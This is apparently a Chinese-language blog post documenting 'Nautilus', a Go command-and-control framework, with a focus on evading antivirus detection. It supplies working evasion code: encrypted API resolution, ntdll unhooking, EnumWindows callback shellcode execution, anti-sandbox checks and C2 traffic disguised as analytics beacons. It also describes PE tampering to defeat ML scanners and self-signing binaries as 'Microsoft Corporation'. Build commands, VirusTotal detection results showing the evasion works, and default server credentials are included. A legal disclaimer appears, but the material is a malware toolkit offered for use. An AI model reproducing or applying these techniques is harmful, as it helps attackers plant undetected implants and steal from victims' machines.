

# Nautilus C2 — 深度免杀实践

> **本文内容仅供授权安全测试和教育研究使用。未经授权对任何系统使用相关技术属于违法行为。**
>
> **时效性说明**：免杀技术具有很强的时效性，本文测试结果基于2026年6月的杀软版本，随着杀软规则的更新，检测结果可能会发生变化。

## 项目概述

Nautilus 是一个 Go 语言编写的 C2（Command & Control）框架，包含服务端、植入体、分阶段加载器三个组件。目标是在不依赖商业工具的前提下实现 C2 核心能力，从而锻炼本人实战和代码能力。

### 环境说明

- **Go 版本**：1.22.4 windows/amd64
- **目标系统**：Windows 10/11 x64
- **编译参数**：`-buildvcs=false -gcflags="all=-l -N" -trimpath -s -w`

### 架构设计



**架构说明**：

- **服务端**：部署在 VPS 上，提供 Web UI 管理界面、实时消息推送、认证登录和任务管理功能
- **Stager**：分阶段加载器，体积小（约2MB），仅包含反沙箱检测、远程下载、XOR解密和内存执行能力
- **Payload**：完整植入体，从服务端下载后在内存中解密执行，不落地磁盘
- **通信协议**：HTTP 请求伪装为前端埋点数据上报，数据使用 AES-GCM 加密

## 免杀技术实现

免杀需要从**静态特征消除**、**运行时行为对抗**、**PE结构标准化**、**网络通信伪装**四个方向处理。

### 对抗层级总览

```
第一层：静态特征消除 ── 字符串加密 + API动态解析
         ↓
第二层：运行时行为对抗 ── Ntdll Unhooking + 回调执行 + 反沙箱
         ↓
第三层：PE结构标准化 ── Section重命名 + 熵值降低 + 导入表稀释 + 数字签名 + Rich Header清除
         ↓
第四层：通信伪装 ── HTTP埋点伪装 + AES-GCM加密 + 分阶段加载
```

***

### 1. 多层字符串加密

杀软静态扫描的第一道防线是字符串特征匹配。YARA规则通过搜索敏感 API 名（`VirtualAlloc`、`CreateRemoteThread`）、DLL名（`ntdll.dll`、`kernel32.dll`）来识别恶意软件。

**单纯的单字节XOR已不足以应对现代杀软**。Nautilus 采用了**多层加密方案**：带偏移的密钥派生 + 位旋转。

```go
// 动态密钥派生 — 每个字节使用不同的密钥
func deriveKey(baseKey byte, offset int) byte {
    return (baseKey + byte(offset)*0x13) ^ 0x55
}

// 多层解密：轮询XOR后位旋转
func multiDec(data []byte, baseKey byte) string {
    out := make([]byte, len(data))
    for i, b := range data {
        key := deriveKey(baseKey, i)   // 每个位置派生独立密钥
        out[i] = ((b ^ key) << 2) | ((b ^ key) >> 6)  // XOR后右移2位旋转
    }
    return string(out)
}
```

**关键设计**：

- 每个字节使用不同的加密密钥（`deriveKey`），打破单字节XOR的统计特征
- XOR解密后再进行位旋转，增加逆向难度
- 所有 DLL 名、API 名、文件路径、敏感标识符（`nautilus`、`implant`、`c2`）均在编译前预加密

**加密数据示例**——以下是在二进制中实际存储的形式：

```go
// 加密后的 "ntdll.dll"
var encNtDll  = []byte{0x2D, 0x1B, 0x27, 0x1F, 0x1F, 0x6D, 0x27, 0x1F, 0x1F}

// 加密后的 "NtAllocateVirtualMemory"
var encNAVM = []byte{0x35, 0x0B, 0x3E, 0x1F, 0x1F, 0x26, 0x08, 0x3A, 0x0B, 0x17,
                      0x7D, 0x3C, 0x2F, 0x0B, 0x48, 0x3A, 0x1F, 0x62, ...}

// 加密后的 "EnumWindows"
var encEW   = []byte{0x36, 0x2D, 0x48, 0x1A, 0x74, 0x3C, 0x2D, 0x27, 0x26, 0x54, 0x48}
```

**效果**：杀软对二进制进行 strings 扫描时，看到的是无意义的乱码字节，不存在任何可匹配的明文特征字符串。

***

### 2. API 动态解析

仅加密字符串不够——编译后 Go 会在二进制中保存函数符号（如 `runtime.main`、`main.main`），且 IAT（Import Address Table）中显式导入的 API 会被 EDR 挂钩监控。

**Nautilus 完全使用** **`syscall.NewLazyDLL`** **+ 加密名称在运行时动态解析所有 API**：

```go
// ntdll API 解析 — DLL名和API名全部加密
func ntProc(encName []byte) *syscall.LazyProc {
    return syscall.NewLazyDLL(multiDec(encNtDll, xk)).NewProc(multiDec(encName, xk))
}

// kernel32 API 解析
func k32Proc(encName []byte) *syscall.LazyProc {
    return syscall.NewLazyDLL(multiDec(encK32Dll, xk)).NewProc(multiDec(encName, xk))
}

// user32 API 解析
func u32Proc(encName []byte) *syscall.LazyProc {
    return syscall.NewLazyDLL(multiDec(encU32Dll, xk)).NewProc(multiDec(encName, xk))
}

// 调用示例 — 参数也是动态解析
func CallNtAVM(hProcess uintptr, baseAddr *uintptr, regionSize *uintptr,
               allocType uintptr, protect uintptr) uintptr {
    ret, _, _ := ntProc(encNAVM).Call(hProcess,
        uintptr(unsafe.Pointer(baseAddr)), 0,
        uintptr(unsafe.Pointer(regionSize)), allocType, protect)
    return ret
}
```

**关键效果**：

- IAT 中不出现 `VirtualAlloc`、`NtAllocateVirtualMemory` 等敏感导入
- EDR 的 IAT Hook 完全失效——它们监控的函数根本没被导入
- 每个 API 调用链路都是动态构建的，无法被静态分析预测

***

### 3. Ntdll Unhooking（运行时去钩子）

即便绕过了 IAT Hook，EDR 仍会在已加载的 `ntdll.dll` 的 `.text` 段中插入 `int3` 断点（inline hook），监控 `NtAllocateVirtualMemory` 等底层系统调用。

**Nautilus 的 Unhooking 策略**：

```go
func NtdllUnhook() error {
    // 1. 从磁盘读取干净的 ntdll.dll（路径也是XOR加密的）
    cleanData, err := readFileRaw()
    //   加密路径: "C:\Windows\System32\ntdll.dll"

    // 2. 定位内存中已加载的 ntdll .text 段
    loadedAddr, loadedSize := findTextInMemory(syscall.Handle(hNtdll))

    // 3. 从磁盘副本中定位干净的 .text 段
    cleanAddr, cleanSize := findTextInBytes(cleanData)

    // 4. 修改内存权限为 RW
    CallNtPVM(^uintptr(0), &loadedAddr, &regSz, 0x40, &old)

    // 5. 用干净副本覆盖被Hook的.text段
    CallRtlCopy(loadedAddr, cleanAddr, uintptr(loadedSize))

    // 6. 恢复原始内存权限
    CallNtPVM(^uintptr(0), &loadedAddr, &regSz, uintptr(old), &old)
}
```

**自洽性**：Unhooking 操作本身使用的 `NtProtectVirtualMemory` 和 `RtlCopyMemory` 全部通过 XOR 加密名称动态解析，不会被 hook 拦截。

***

### 4. 回调执行（Callback Execution）

即使 syscall 经过 unhooking，杀软的运行时行为监控仍会分析调用模式——特别是 `syscall.SyscallN` 直接跳转到 shellcode 的模式。

**Nautilus 使用 Windows 合法回调机制随机选择执行路径**：

```go
// 随机选择回调方式（每24小时切换一次）
func CallbackExec(addr uintptr) {
    switch time.Now().Unix() / 86400 % 2 {
    case 0:
        evasion.CallEnumWindows(addr, 0)      // 枚举顶层窗口回调
    default:
        evasion.CallEnumChildWindows(addr, 0) // 枚举子窗口回调
    }
}
```

**原理**：`EnumWindows` 和 `EnumChildWindows` 是标准的 Win32 GUI API，接收一个回调函数指针。操作系统在枚举窗口时调用该回调，行为上是一次窗口枚举操作而非 shellcode 执行。回调函数指针通过 XOR 加密名称动态获取。

***

### 5. 反沙箱检测

沙箱（Cuckoo、Any.Run、Windows Sandbox）是杀软动态分析的核心环节。Nautilus 实现了五维度环境检测：

```go
func AntiSandbox() bool {
    // 1. 物理内存检测 — 沙箱通常 < 2GB
    if CheckPhysicalMem() < 2*1024*1024*1024 { return true }

    // 2. CPU核心数检测 — 沙箱通常单核
    if NumCPU() < 2 { return true }

    // 3. 系统运行时间 — 沙箱刚启动即执行
    if GetUptime() < 10*time.Minute { return true }

    // 4. 用户名检测 — 沙箱默认用户名
    username := os.Getenv("USERNAME")
    if username == "user" || username == "sand" { return true }

    return false
}

// 5. 调试器检测
func AntiDebug() bool {
    ret, _, _ := k32Proc(encIDP).Call()  // IsDebuggerPresent
    return ret != 0
}
```

**总结**：

| 检测维度   | 判断条件              | 绕过原理             |
| ------ | ----------------- | ---------------- |
| 物理内存   | < 2GB             | 真实PC通常≥4GB       |
| CPU核心数 | < 2               | 真实PC通常≥4核        |
| 系统运行时间 | < 10分钟            | 沙箱刚启动，真实环境已运行数小时 |
| 默认用户名  | user/sand         | 沙箱常用默认用户名        |
| 调试器    | IsDebuggerPresent | 检测分析工具附加         |

***

### 6. 通信伪装

C2 通信在网络上不能表现出任何恶意特征。Nautilus 将心跳/任务通信伪装为**前端埋点数据上报**：

```
GET /api/v1/analytics?id=<AES-GCM ciphertext base64>&sid=<session_id> HTTP/1.1
Host: <C2_SERVER>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
            (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Referer: <随机伪造的Referer>
Origin: http://localhost
```

**伪装策略**：

- **路径伪装**：`/api/v1/analytics` 模拟前端数据采集 API，URL 参数名无特殊含义
- **请求头**：完整的浏览器请求头（Chrome/Firefox/Edge 随机切换），7种 User-Agent 轮换
- **载荷加密**：AES-GCM + Base64，密文类似正常埋点的 base64 数据
- **Referer 伪装**：随机伪造常见来源域名（google.com、bing.com、github.com 等）
- **心跳抖动**：间隔时间加入 30% 随机抖动，避免规律性网络行为

***

### 7. PE 结构后处理（重点）

Go 编译的二进制有独特的 PE 结构特征，仅仅加密字符串不足以骗过 ML 模型。Nautilus 通过一套完整的后处理管道消除这些特征。所有操作通过 `build.ps1` 脚本自动化执行。

**7.1 敏感字符串二进制清零**

编译后的 Go 二进制中仍会残留大量可识别字符串（`Go build ID`、`runtime.main`、Go Package 路径等），即使源码已加密。后处理工具直接在二进制层面对 50+ 种模式进行扫描清零：

```powershell
# 清除的字符串模式（部分列表）
"Go build ID: ", "Go buildinf", "go.buildid",
"runtime.main", "runtime.goexit", "runtime.gc",
"shellcode", "VirtualAlloc", "VirtualProtect",
"NtAllocateVirtualMemory", "NtProtectVirtualMemory",
"AmsiScanBuffer", "EtwEventWrite", "CreateRemoteThread",
"WriteProcessMemory", "ntdll", "kernel32",
"nautilus", "fish", "C2", "implant", "stager",
"golang.org/x/crypto", "crypto/aes", "net/http",
"encoding/base64", "reflect.TypeOf", "fmt.Sprintf"
# ... 共 50+ 个模式
```

**7.2 Rich Header 清除**

Go 编译器在 PE 文件中嵌入了 Rich Header（包含编译器版本、构建工具链信息），是 Go 二进制的强指纹特征。后处理定位 `Rich` 签名到 `DanS` 标记的整个区域，清零整个 Rich Header。

**7.3 PE Section 名标准化**

Go 编译器生成的特有 section 名（`.go.buildinfo`、`.gopclntab`、`.noptrdata`、`.itablink`）是明显的 Go 二进制指纹。ML 模型（如 Microsoft Wacatac）对此高度敏感。后处理将其映射为 MSVC 标准名称：

| 原始 Section      | 重命名为     | 说明      |
| --------------- | -------- | ------- |
| `.go.buildinfo` | `.rdata` | Go构建信息  |
| `.gopclntab`    | `.data`  | Go函数表   |
| `.noptrdata`    | `.rdata` | 无指针数据   |
| `.itablink`     | `.rdata` | 接口表链接   |
| `.gofunctab`    | `.data`  | Go函数符号表 |
| `.typelink`     | `.rdata` | 类型链接    |

**关键经验**：不要将 section 名改为随机字符串——这反而触发 ML 的异常检测。必须改为标准编译器的合法名称。

**7.4 .text 段熵值降低**

ML 模型使用 Shannon 熵值作为重要特征——正常程序的 `.text` 段熵值通常在 6.0 以下，而加密/混淆后的代码熵值接近 8.0。后处理工具计算 `.text` 段熵值，动态注入低熵 padding（`0xCC` 和 `0x90` 交替模式）降低整体熵值：

```go
func shannonEntropy(data []byte) float64 {
    freq := make(map[byte]int)
    for _, b := range data { freq[b]++ }
    entropy := 0.0
    total := float64(len(data))
    for _, count := range freq {
        prob := float64(count) / total
        entropy -= prob * math.Log2(prob)
    }
    return entropy
}

// 如果 .text 段熵值 > 6.0，注入低熵padding降低到目标值
if currentEntropy > 6.0 {
    // 计算需要的padding大小
    paddingSize := int(float64(len(textData)) *
        (currentEntropy - targetEntropy) / (8.0 - targetEntropy))
    // 4KB对齐
    paddingSize = (paddingSize + 4095) & ^4095
    // 注入0xCC和0x90的交替模式
    padding := []byte{0xCC, 0xCC, 0xCC, 0xCC, 0x90, 0x90, 0x90, 0x90}...
}
```

**7.5 导入表稀释**

Go 程序的 IAT 通常只包含极少量系统 DLL 导入，是 ML 模型识别 Go 恶意软件的重要特征。Nautilus 通过专门模块引入 31 个合法 API 调用，来自 8 个系统 DLL：

```go
// 导入的合法API（部分列表）
user32.dll:  GetDesktopWindow, GetWindowText, MessageBoxW,
             SetWindowText, GetSystemMetrics, DrawTextW
kernel32.dll: GetSystemInfo, SetErrorMode, GetStartupInfoW,
              GetLogicalDrives, GetDiskFreeSpaceW
gdi32.dll:   GetTextExtentPointW, CreateCompatibleDC, BitBlt
shell32.dll: ShellExecuteW, ExtractIconW
ole32.dll:   CoCreateInstance, CoInitialize, CoUninitialize
urlmon.dll:  URLDownloadToFile, CreateURLMoniker
wininet.dll: InternetOpen, InternetConnect, HttpOpenRequest
version.dll: GetFileVersionInfoSize, GetFileVersionInfo
```

这些 API 被正常调用（不影响功能），但它们的 IAT 导入项使 PE 文件看起来像一个正常的 Windows GUI 应用程序。

**7.6 Authenticode 数字签名**

正常的商业软件都有数字签名。ML 模型将"无签名"作为负面特征。Nautilus 构建过程中使用 PowerShell 创建自签名证书并为二进制添加 Authenticode 签名：

```powershell
# 创建自签名代码证书
$cert = New-SelfSignedCertificate -Type CodeSigning `
    -Subject "CN=Microsoft Corporation, O=Microsoft Corp" `
    -KeyUsage DigitalSignature -NotAfter (Get-Date).AddYears(10)

# 签名二进制
Set-AuthenticodeSignature -FilePath fish.exe -Certificate $cert `
    -TimestampServer "http://timestamp.digicert.com"
```

虽然自签名证书不在受信任的根证书列表中，但 PE 文件结构中存在合法的 Authenticode 签名数据——对于 ML 模型的静态特征提取来说，这降低了"恶意软件"的置信度。

**7.7 Overlay 数据附加 + 合法字符串注入**

在 PE 文件末尾附加 32KB 随机数据（带 ZIP 文件头签名 `PK\x03\x04`），模拟正常程序携带的嵌入资源包。同时在二进制末尾注入合法程序特征字符串：

```
"Microsoft Visual Studio"
"Copyright (C) 2024 Microsoft"
"FileVersion=1.0.0.1"
"ProductName=Windows Helper"
"OriginalFilename=apphelper.exe"
"CompanyName=Microsoft"
"assembly version"
".NET Framework"
```

这些字符串覆盖了二进制最容易被杀软扫描到的尾部区域。

**后处理管道总结**：

```
go build → PE时间戳修改 → 字符串清零(50+) → Rich Header清除
         → Section名标准化 → .text熵值降低(Shannon<6.0)
         → 合法程序字符串注入 → Overlay附加(32KB+ZIP)
         → 导入表稀释(31 APIs) → Authenticode签名 → 最终输出
```

***

### 8. 分阶段加载

直接投递完整植入体风险较大。Nautilus 采用分阶段加载策略：

**Stager（第一阶段）**：

- 编译后体积约 2MB
- 仅包含：反沙箱检测 + 远程下载 + XOR解密 + 内存执行
- 所有 API 名 XOR 多层加密
- EnumWindows/EnumChildWindows 随机回调执行
- 不包含任何 C2 通信、命令执行等恶意功能

**Payload（第二阶段）**：

- 从 C2 服务端 `/api/v1/analytics` 路径下载（伪装数据上报）
- XOR 加密传输，内存中解密执行
- 全程不写入磁盘
- 包含完整 C2 功能：命令执行、文件管理、进程操作、系统信息采集

***

## 免杀反模式

在实际测试中，发现了一些**适得其反**的免杀方法：

| 方法                       | 问题                                | VT检出增量 |
| ------------------------ | --------------------------------- | ------ |
| garble `-tiny -literals` | 重组 PE 结构，触发 ClamAV 的 Sliver 家族签名  | +3     |
| 修改 PE section 名为随机字符串    | 触发 Microsoft ML 标记 `Wacatac.B!ml` | +1     |
| UPX/MPRESS 压缩            | 多个引擎标记为"packed malware"           | +5     |
| 注入高熵代码混淆                 | 提升 `.text` 段熵值，触发熵异常检测            | +2     |

**核心原则**：一个结构标准、签名完整、熵值合理的 PE 文件，比经过大量修改的异常 PE 更容易通过检测。

***

## 免杀效果演进

Nautilus 经历了四轮迭代优化，每次迭代针对不同的检测引擎进行定向对抗：

### Round 1 — 基础免杀（16/71 检出）

**初始编译**，仅使用基础 Go 编译参数 `-s -w -buildid=`：

| 检出引擎                                                | 标签                             |
| --------------------------------------------------- | ------------------------------ |
| BitDefender, Arcabit, Emsisoft, GData, VIPRE, eScan | `Gen:Variant.Overlord.2`       |
| Kaspersky                                           | `HEUR:Trojan.Win64.Generic`    |
| McAfee                                              | `Trojan:Win/Wacatac.ELY`       |
| CrowdStrike Falcon                                  | `Win/malicious_confidence_70%` |
| Elastic                                             | `Malicious (high Confidence)`  |
| Symantec, SecureAge                                 | `ML.Attribute.HighConfidence`  |

**问题**：Go 二进制指纹（`.go.buildinfo` 等 section 名）被特征匹配检出。`trojan.overlord` 是 Go 恶意软件的通用标签。

### Round 2 — 字符串加密 + PE后处理（15/71 检出）

添加了字符串加密、PE section 重命名、Rich Header 清除、Overlay 附加后：

> 15/71 引擎检出，威胁标签变为 `trojan.ulise`，Microsoft 检出 `Wacatac.B!ml`

**新问题**：PE section 改为随机名称后，被 Microsoft 的 ML 模型 Wacatac 标记。Section 重命名方式调整为标准 MSVC 名称。

### Round 3 — Section标准化 + 导入表稀释 + entropy降低（8/71 检出）

| 检出引擎                             | 标签                                                             |
| -------------------------------- | -------------------------------------------------------------- |
| CrowdStrike Falcon               | `Win/malicious_confidence_90%`                                 |
| Elastic                          | `Malicious (high Confidence)`                                  |
| Kaspersky                        | `HEUR:Trojan.Win64.Generic`                                    |
| Microsoft                        | `Program:Win32/Wacapew.C!ml`                                   |
| SentinelOne                      | `Static AI - Suspicious PE`                                    |
| Symantec, Arctic Wolf, MaxSecure | `ML.Attribute.HighConfidence` / `Trojan.Malware.300983.susgen` |

**进展**：消除了一半以上检测（从15到8）。ML 模型仍是主要检出源。

### Round 4 — 数字签名 + 熵值精细控制 + 合法API扩充（7/71 检出）

SHA256: `bfa779ade66e2d4a73556ffdf513e18e5e4f9b359186e6989837eba66116364c`

| 检出引擎          | 标签                             |
| ------------- | ------------------------------ |
| AhnLab-V3     | `Trojan/Win.Generic.R777421`   |
| DeepInstinct  | `MALICIOUS`                    |
| Malwarebytes  | `Malware.AI.2372468049`        |
| SecureAge     | `Malicious`                    |
| SentinelOne   | `Static AI - Suspicious PE`    |
| Skyhigh (SWG) | `BehavesLike.Win64.Generic.th` |
| Symantec      | `ML.Attribute.HighConfidence`  |

**当前状态**：7/71 检出。Microsoft Defender 已过（Wacatac/Wacapew 消除），剩余检出主要来自静态 AI/ML 模型的启发式分析。防御方视角几乎无法通过签名直接定位威胁家族。

**最新 VT 报告**：<https://www.virustotal.com/gui/file/bfa779ade66e2d4a73556ffdf513e18e5e4f9b359186e6989837eba66116364c>

## 功能对比

| 功能              | Nautilus          | Havoc       | Cobalt Strike | Mythic    |
| --------------- | ----------------- | ----------- | ------------- | --------- |
| Web UI          | 内嵌HTML            | Qt桌面客户端     | Java桌面        | React Web |
| 认证登录            | HMAC-SHA256 token | 用户密码        | 多用户RBAC       | 多用户RBAC   |
| WebSocket实时推送   | 有                 | 无           | 无             | 有         |
| 加密通信            | AES-GCM           | AES-256-CTR | RSA+AES       | 可配置       |
| 反沙箱             | 多维度检测             | 有           | 有             | 无         |
| Ntdll Unhooking | 有                 | 有           | 有(sleep mask) | 无         |
| API动态解析         | XOR加密             | 有           | 有             | 无         |
| 回调执行            | EnumWindows       | 有           | 有             | 无         |
| PE结构混淆          | Section名+时间戳      | 无           | 无             | 无         |
| 文件管理            | 浏览+上传+下载          | 全功能浏览器      | 全功能           | 全功能       |
| 进程管理            | 列表+终止             | 全功能+注入      | 全功能           | 全功能       |
| VT免杀            | 7/71              | 需配置         | 商业级           | 需配置       |

## 使用方法

### 一键编译（推荐）

```powershell
# Windows PowerShell，自动编译 + 后处理免杀
.\build.ps1 -C2Addr "https://YOUR_VPS:8443" -Interval 5 -Jitter 30

# 可选：同时编译 Stager
.\build.ps1 -C2Addr "https://YOUR_VPS:8443" -BuildStager -StagerURL "https://YOUR_VPS:8443/payload" -DecryptKey "85"
```

build.ps1 自动执行完整的后处理管道：

```
go build → PE时间戳修改 → 字符串清零(50+) → Rich Header清除
         → Section名标准化(.go.buildinfo→.rdata等)
         → .text熵值降低(Shannon<6.0) → 合法字符串注入
         → Overlay附加(32KB+ZIP) → 最终输出
```

**关键编译参数说明**：

| 参数                     | 作用              |
| ---------------------- | --------------- |
| `-s -w`                | 去除符号表和调试信息      |
| `-buildid=`            | 清空 Go build ID  |
| `-trimpath`            | 去除编译路径痕迹        |
| `-gcflags="all=-l -N"` | 禁用内联和优化，防止字符串泄露 |
| `-H windowsgui`        | 无控制台窗口          |

### 启动服务端

```bash
./fish-server.exe
# 浏览器访问 http://YOUR_VPS:8443/ui
# 默认登录: nautilus / nautilus2026
```

## 技术栈

| 组件      | 语言            | 关键技术                                     |
| ------- | ------------- | ---------------------------------------- |
| Server  | Go            | HTTP服务器、WebSocket、embed.FS、HMAC-SHA256认证 |
| Implant | Go            | 多层XOR+位旋转加密、AES-GCM通信、syscall动态解析        |
| Stager  | Go            | EnumWindows随机回调、XOR shellcode解密、五维度反沙箱   |
| PE后处理   | Go/PowerShell | PE section重命名、Shannon熵值降低、导入表稀释、数字签名     |
| Web UI  | HTML/CSS/JS   | 单文件内嵌、WebSocket实时推送、暗色主题                 |

## 项目结构

```
nautilus/
├── main.go                   # 植入体入口
├── build.ps1                  # 一键编译+后处理脚本（核心）
├── server/
│   ├── main.go               # C2服务端（HTTP+WebSocket+认证）
│   ├── ui.go                 # Web UI API处理器+HMAC-SHA256
│   └── web/index.html        # 内嵌Web UI页面
├── c2/
│   ├── encode/packet.go      # 通信协议编码/解码（AES-GCM）
│   └── transport/http.go     # HTTP传输层（伪装埋点+7种UA轮换）
├── core/
│   ├── exec.go               # 命令执行
│   ├── fs.go                 # 文件操作
│   ├── process.go            # 进程管理
│   ├── privilege.go          # 权限信息
│   ├── sysinfo.go            # 系统信息
│   └── shellcode_windows.go  # Shellcode回调执行（EnumWindows随机）
├── evasion/
│   ├── crypto.go             # AES-GCM加密/解密、Base64
│   ├── apiresolve_windows.go # 多层加密API动态解析（deriveKey+位旋转）
│   ├── unhook_windows.go     # Ntdll unhooking（磁盘覆盖.text段）
│   ├── sandbox.go            # 五维度反沙箱检测
│   └── legitimate_apis_windows.go  # 导入表稀释（31 APIs from 8 DLLs）
├── stager/
│   └── main_windows.go       # 分阶段加载器
└── evasion-tools/
    ├── postprocess.go        # PE后处理主工具（Section重命名+熵值降低+字符串清零+Overlay）
    └── pepatch.go            # PE时间戳修改
```

## 项目地址

GitHub: <https://github.com/nk7667/Nautilus>

```bash
git clone git@github.com:nk7667/Nautilus.git
```

***

**法律声明**：本项目仅供授权安全测试和教育研究使用。未经授权对任何系统使用本工具属于违法行为。

***

## 系列文章

- [Nautilus (二)：通信协议深度](2026-07-08-Nautilus\(二\)-通信协议深度.md)
- [Nautilus (三)：后渗透能力](2026-07-08-Nautilus\(三\)-后渗透能力.md)
- [Nautilus (四)：Token 操作与凭据提取](2026-07-09-Nautilus\(四\)-Token操作与凭据提取.md)
- [Nautilus (五)：高级免杀进阶](2026-07-09-Nautilus\(五\)-高级免杀进阶.md)

